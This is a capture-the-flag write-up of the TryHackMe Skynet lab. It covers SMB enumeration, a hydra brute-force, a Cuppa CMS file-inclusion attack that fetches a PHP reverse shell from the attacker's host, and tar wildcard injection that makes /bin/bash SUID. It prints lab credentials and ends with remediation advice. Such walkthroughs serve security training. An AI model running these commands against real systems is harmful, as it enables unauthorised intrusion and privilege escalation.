




PLATFORM: TryHackMe

AUTHOR: tryhackme

DATE: 28/10/2026

SCOPE: ACHIEVE ROOT

TARGET: 10.130.170.87

# Overview:
I was able to fully compromise the system due to exposed passwords and hidden directories, outdated services, and a misconfigured scheduled backup program (Cron Job) with elevated privileges.

# Attack path summary:
Enumeration of the web server led to the discovery of an outdated SquirrelMail service.
The exposure of the SMB service with anonymous access to a specific share led to the discovery of log files containing password lists. Using these password lists, I was able to brute-force the SquirrelMail login page and compromise a user's account. Then, I found the password for a personal SMB share inside an email. Connecting to that share led to the discovery of a hidden directory on the web server hosting a vulnerable CMS. Exploiting the vulnerable CMS gave me a shell on the target, and the misconfiguration of a scheduled task (cron job) running with elevated privileges led to root access and full compromise of the target.

# Enumeration:

I started enumeration with Nmap, revealing six services running on the target. The interesting ones were a web server and an SMB service.

Command used:
This is a quick port scan to reveal open ports.
`nmap -p- --min-rate 1000 10.130.170.87 -v`

Output:
```
Starting Nmap 7.991
Initiating Ping Scan at 22:49
Scanning 10.130.170.87 [4 ports]
Completed Ping Scan at 22:49, 0.41s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 22:49
Completed Parallel DNS resolution of 1 host. at 22:49, 0.51s elapsed
Initiating SYN Stealth Scan at 22:49
Scanning 10.130.170.87 [65535 ports]
Discovered open port 143/tcp on 10.130.170.87
Discovered open port 445/tcp on 10.130.170.87
Discovered open port 22/tcp on 10.130.170.87
Discovered open port 139/tcp on 10.130.170.87
Discovered open port 110/tcp on 10.130.170.87
Discovered open port 80/tcp on 10.130.170.87
Completed SYN Stealth Scan at 22:50, 78.63s elapsed (65535 total ports)
Nmap scan report for 10.130.170.87
Host is up (0.086s latency).
Not shown: 65529 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
139/tcp open  netbios-ssn
143/tcp open  imap
445/tcp open  microsoft-ds
```


Once I found the open ports, I ran a more thorough Nmap scan to detect service versions, names, etc.

Command used:
`nmap -sC -sV -Pn -p 22,80,110,139,143,445 10.130.170.87`

Output:
```
Starting Nmap 7.991
Nmap scan report for 10.130.170.87
Host is up (0.21s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 99:23:31:bb:b1:e9:43:b7:56:94:4c:b9:e8:21:46:c5 (RSA)
|   256 57:c0:75:02:71:2d:19:31:83:db:e4:fe:67:96:68:cf (ECDSA)
|_  256 46:fa:4e:fc:10:a5:4f:57:57:d0:6d:54:f6:c3:4d:fe (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Skynet
|_http-server-header: Apache/2.4.18 (Ubuntu)
110/tcp open  pop3        Dovecot pop3d
|_pop3-capabilities: RESP-CODES TOP CAPA UIDL SASL AUTH-RESP-CODE PIPELINING
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
|_imap-capabilities: ENABLE listed post-login LITERAL+ OK Pre-login IDLE have SASL-IR ID IMAP4rev1 capabilities more LOGIN-REFERRALS LOGINDISABLEDA0001
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: SKYNET; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: skynet
|   NetBIOS computer name: SKYNET\x00
|   Domain name: \x00
|   FQDN: skynet
|_  System time: 2026-10-28T15:54:14-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h40m04s, deviation: 2h53m12s, median: 3s
|_nbstat: NetBIOS name: SKYNET, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2026-10-28T20:54:14
|_  start_date: N/A
```

After discovering the SMB service, I tried listing the shares and found one named `anonymous`, which allows anonymous access, and a personal share called `milesdyson`, which could indicate a possible user.
`smbclient -L //10.130.170.87/ -N`

```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        anonymous       Disk      Skynet Anonymous Share
        milesdyson      Disk      Miles Dyson Personal Share
        IPC$            IPC       IPC Service (skynet server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP            SKYNET

```

After connecting to the anonymous share, I found a text file that contained nothing interesting and a `logs` directory containing three log files with what looked like possible passwords.
Command used:
`smbclient //10.130.170.87/anonymous -N`
Output:
```
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Nov 26 18:04:00 2020
  ..                                  D        0  Tue Sep 17 10:20:17 2019
  attention.txt                       N      163  Wed Sep 18 06:04:59 2019
  logs                                D        0  Wed Sep 18 07:42:16 2019

                9204224 blocks of size 1024. 5831532 blocks available
smb: \> 
```

I also ran a directory scan to look for hidden directories on the web server.
Command used:
`gobuster dir -w SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://10.130.170.87`

Output:
```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.130.170.87
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                enum/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
admin                (Status: 301) [Size: 314] [--> http://10.130.170.87/admin/]
css                  (Status: 301) [Size: 312] [--> http://10.130.170.87/css/]
js                   (Status: 301) [Size: 311] [--> http://10.130.170.87/js/]
config               (Status: 301) [Size: 315] [--> http://10.130.170.87/config/]
ai                   (Status: 301) [Size: 311] [--> http://10.130.170.87/ai/]
squirrelmail         (Status: 301) [Size: 321] [--> http://10.130.170.87/squirrelmail/]
```

I found SquirrelMail 1.4.23 running in the `/squirrelmail` directory. This explains why Nmap found IMAP and POP3 running.

SquirrelMail version 1.4.23 is affected by CVE-2017-7692, which allows post-authentication RCE. Before trying to exploit this, I needed an authenticated session in SquirrelMail, so I first had to find a way in.



Using the possible passwords and username I found earlier, I was able to perform a successful brute-force attack against the SquirrelMail service and log in as `milesdyson`.

Command used:
`hydra -l milesdyson -P log2.txt 10.130.170.87 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=Unknown user or password incorrect."`

Output:
```
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

[DATA] max 16 tasks per 1 server, overall 16 tasks, 31 login tries (l:1/p:31), ~2 tries per task
[DATA] attacking http-post-form://10.130.170.87:80/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:F=Unknown user or password incorrect.
[80][http-post-form] host: 10.130.170.87   login: milesdyson   password: cyborg007haloterminator
1 of 1 target successfully completed, 1 valid password found
```
 The password found for `milesdyson` was `cyborg007haloterminator`.

After logging in as `milesdyson`, I found the password for his personal SMB share in a received email.

Password: )s{A&2Z=F^n_E.B`

I connected to his personal share to see what I could find:
Command used:
`smbclient //10.130.170.87/milesdyson -U milesdyson`

Output:
```
Password for [WORKGROUP\milesdyson]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Sep 17 12:05:47 2019
  ..                                  D        0  Wed Sep 18 06:51:03 2019
  Improving Deep Neural Networks.pdf      N  5743095  Tue Sep 17 12:05:14 2019
  Natural Language Processing-Building Sequence Models.pdf      N 12927230  Tue Sep 17 12:05:14 2019
  Convolutional Neural Networks-CNN.pdf      N 19655446  Tue Sep 17 12:05:14 2019
  notes                               D        0  Tue Sep 17 12:18:40 2019
  Neural Networks and Deep Learning.pdf      N  4304586  Tue Sep 17 12:05:14 2019
  Structuring your Machine Learning Project.pdf      N  3531427  Tue Sep 17 12:05:14 2019

                9204224 blocks of size 1024. 5821148 blocks available
smb: \> 

```

After searching for a while, I found a text file in `milesdyson`'s notes that contained what looked like a directory path.
```
smb: \notes\> ls
  .                                   D        0  Tue Sep 17 12:18:40 2019
  ..                                  D        0  Tue Sep 17 12:05:47 2019
  3.01 Search.md                      N    65601  Tue Sep 17 12:01:29 2019
  4.01 Agent-Based Models.md          N     5683  Tue Sep 17 12:01:29 2019
  2.08 In Practice.md                 N     7949  Tue Sep 17 12:01:29 2019
  0.00 Cover.md                       N     3114  Tue Sep 17 12:01:29 2019
  1.02 Linear Algebra.md              N    70314  Tue Sep 17 12:01:29 2019
  important.txt                       N      117  Tue Sep 17 12:18:39 2019
  6.01 pandas.md                      N     9221  Tue Sep 17 12:01:29 2019
  3.00 Artificial Intelligence.md      N       33  Tue Sep 17 12:01:29 2019
  2.01 Overview.md                    N     1165  Tue Sep 17 12:01:29 2019
  3.02 Planning.md                    N    71657  Tue Sep 17 12:01:29 2019
  1.04 Probability.md                 N    62712  Tue Sep 17 12:01:29 2019
  2.06 Natural Language Processing.md      N    82633  Tue Sep 17 12:01:29 2019
  2.00 Machine Learning.md            N       26  Tue Sep 17 12:01:29 2019
  1.03 Calculus.md                    N    40779  Tue Sep 17 12:01:29 2019
  3.03 Reinforcement Learning.md      N    25119  Tue Sep 17 12:01:29 2019
  1.08 Probabilistic Graphical Models.md      N    81655  Tue Sep 17 12:01:29 2019
  1.06 Bayesian Statistics.md         N    39554  Tue Sep 17 12:01:29 2019
  6.00 Appendices.md                  N       20  Tue Sep 17 12:01:29 2019
  1.01 Functions.md                   N     7627  Tue Sep 17 12:01:29 2019
  2.03 Neural Nets.md                 N   144726  Tue Sep 17 12:01:29 2019
  2.04 Model Selection.md             N    33383  Tue Sep 17 12:01:29 2019
  2.02 Supervised Learning.md         N    94287  Tue Sep 17 12:01:29 2019
  4.00 Simulation.md                  N       20  Tue Sep 17 12:01:29 2019
  3.05 In Practice.md                 N     1123  Tue Sep 17 12:01:29 2019
  1.07 Graphs.md                      N     5110  Tue Sep 17 12:01:29 2019
  2.07 Unsupervised Learning.md       N    21579  Tue Sep 17 12:01:29 2019
  2.05 Bayesian Learning.md           N    39443  Tue Sep 17 12:01:29 2019
  5.03 Anonymization.md               N     2516  Tue Sep 17 12:01:29 2019
  5.01 Process.md                     N     5788  Tue Sep 17 12:01:29 2019
  1.09 Optimization.md                N    25823  Tue Sep 17 12:01:29 2019
  1.05 Statistics.md                  N    64291  Tue Sep 17 12:01:29 2019
  5.02 Visualization.md               N      940  Tue Sep 17 12:01:29 2019
  5.00 In Practice.md                 N       21  Tue Sep 17 12:01:29 2019
  4.02 Nonlinear Dynamics.md          N    44601  Tue Sep 17 12:01:29 2019
  1.10 Algorithms.md                  N    28790  Tue Sep 17 12:01:29 2019
  3.04 Filtering.md                   N    13360  Tue Sep 17 12:01:29 2019
  1.00 Foundations.md                 N       22  Tue Sep 17 12:01:29 2019

                9204224 blocks of size 1024. 5820764 blocks available
smb: \notes\> get important.txt
```

```
cat important.txt 

1. Add features to beta CMS /45kra24zxs28v3yd
2. Work on T-800 Model 101 blueprints
3. Spend more time with my wife
```

Visiting the directory took me to `milesdyson`'s personal page. Nothing interesting was there, so I decided to enumerate further and perform a directory scan to see whether there were any other hidden directories.


Command used:
`gobuster dir -w ~/enum/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u http://10.130.170.87/45kra24zxs28v3yd/`
Output:
```
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.130.170.87/45kra24zxs28v3yd/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/enum/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
administrator        (Status: 301) [Size: 339] [--> http://10.130.170.87/45kra24zxs28v3yd/administrator/]
```

I found a hidden directory called `administrator`. Upon visiting it, I was met with a Cuppa CMS login page.


Cuppa has a known LFI/RFI vulnerability that allows unauthenticated RCE.

To check whether this instance was vulnerable, I tried reading the target's `/etc/passwd` file and confirmed that it was vulnerable.

Visiting `http://10.130.170.87/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=/etc/passwd` displays the `/etc/passwd` file.


# Initial Access:
I proceeded to exploit the RFI vulnerability and gain a shell on the target by making the target web server fetch and serve a PHP file containing reverse-shell code. First, I had to start a web server to make my PHP file accessible to the target, and also start a listener to catch the reverse shell.

http://10.130.170.87/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://MY-IP:MY-PORT/shellthm.php

Webserver and the target's request to get my file:
```
python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.130.170.87 - - [] "GET /shellthm.php HTTP/1.0" 200 -
```

Listener catching the connection:
```
nc -lvnp 9001
listening on [any] 9001 ...
connect to [MY-IP] from (UNKNOWN) [10.130.170.87] 45732
/bin/sh: 0: can't access tty; job control turned off
$ 
```

After gaining a shell, I found the database password for the root user in `/var/www/html/45kra24zxs28v3yd/administrator/Configuration.php`. However, the database contained nothing interesting, and since the MySQL process wasn't running with elevated privileges, I couldn't do much with this.
```
www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator$ ls
Configuration.php  alerts  classes  components  index.php  js  media  templates
php data@skynet:/var/www/html/45kra24zxs28v3yd/administrator$ cat Configuration.p
<?php 
        class Configuration{
                public $host = "localhost";
                public $db = "cuppa";
                public $user = "root";
                public $password = "password123";
                public $table_prefix = "cu_";
                public $administrator_template = "default";
                public $list_limit = 25;
                public $token = "OBqIPqlFWf3X";
                public $allowed_extensions = "*.bmp; *.csv; *.doc; *.gif; *.ico; *.jpg; *.jpeg; *.odg; *.odp; *.ods; *.odt; *.pdf; *.png; *.ppt; *.swf; *.txt; *.xcf; *.xls; *.docx; *.xlsx";
                public $upload_default_path = "media/uploadsFiles";
                public $maximum_file_size = "5242880";
                public $secure_login = 0;
                public $secure_login_value = "";
                public $secure_login_redirect = "";
        } 
?>www-data@skynet:/var/www/html/45kra24zxs28v3yd/administrator$ 
```

I tried logging in as `milesdyson` using the same password as his personal SMB share, and it worked.
```
www-data@skynet:/home/milesdyson$ su milesdyson
Password: 
milesdyson@skynet:~$ 
```

```
milesdyson@skynet:~$ sudo -l
[sudo] password for milesdyson: 
Sorry, user milesdyson may not run sudo on skynet.
milesdyson@skynet:~$ 
```
I couldn't run anything with `sudo`, so I decided to enumerate the file system further.

# Privilege Escalation:

In `milesdyson`'s home directory, I found a backup directory containing a `.sh` script that ran as root. The script appeared to back up everything inside the `/var/www/html` directory using `tar`.
```
milesdyson@skynet:~/backups$ ls -la
total 4584
drwxr-xr-x 2 root       root          4096 Sep 17  2019 .
drwxr-xr-x 5 milesdyson milesdyson    4096 Oct 28 17:59 ..
-rwxr-xr-x 1 root       root            74 Sep 17  2019 backup.sh
-rw-r--r-- 1 root       root       4679680 Oct 28 18:05 backup.tgz
milesdyson@skynet:~/backups$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

I checked whether it was running as a cron job and found that it ran every minute as root.
```
milesdyson@skynet:~/backups$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

The misconfiguration:
The script runs as root and uses an unquoted wildcard (`*`) with `tar`. When the shell expands `*`, any filename beginning with `-` in the directory used by the script is treated as a command-line option by `tar`.

Because the web directory is writable by `www-data`, I was able to plant specially crafted filenames that `tar` would interpret as options. This allowed me to make the script change `/bin/bash` into a SUID binary and then execute it to gain a root shell.

Exploitation:
```
milesdyson@skynet:~/backups$ ls -ld /var/www/html
drwxr-xr-x 8 www-data www-data 4096 Nov 26  2020 /var/www/html
milesdyson@skynet:~/backups$ exit
exit

www-data@skynet:/home/milesdyson$ echo 'chmod +s /bin/bash' > /var/www/html/shell.sh 
www-data@skynet:/home/milesdyson$ cd ~      
www-data@skynet:/var/www$ cd html/
www-data@skynet:/var/www/html$ echo "" > "--checkpoint=1"
www-data@skynet:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
www-data@skynet:/var/www/html$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
www-data@skynet:/var/www/html$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
www-data@skynet:/var/www/html$ /bin/bash -p
bash-4.3# whoami
root
```

# Remediation:

- Disable anonymous SMB access or restrict it to the minimum required permissions.
- Remove exposed credentials and enforce unique passwords.
- Upgrade vulnerable or outdated software.
- Replace unsafe wildcard-based backup commands with safer implementations.
- Ensure scheduled scripts and their working directories cannot be modified by unprivileged users.
